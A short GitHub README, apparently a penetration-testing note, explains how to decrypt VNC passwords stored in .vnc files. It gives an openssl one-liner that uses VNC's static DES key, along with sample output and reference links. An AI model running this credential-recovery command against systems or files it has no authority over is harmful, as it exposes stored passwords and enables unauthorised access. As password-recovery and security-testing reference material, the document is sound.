 # VNCDecrypt
Decrypt passwords stored in VNC files

VNC stores passwords as a hex string in `.vnc` files using a default encryption key.  The following openssl one-liner can be used to decrypt the string:

Assume the string from the .vnc file is `d7a514d8c556aade`

`echo -n d7a514d8c556aade | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv`

The output will look like this:

```
00000000  53 65 63 75 72 65 21 00                           |Secure!.|
00000008
```

The password stored in the register encrypted with a static key. `e84ad660c4721ae0` is the DES Key of the it. 

## Reference
* https://wpkg.org/Talk:UltraVNC
* https://miloserdov.org/?p=4854#6
* https://www.hackingarticles.in/vnc-penetration-testing/
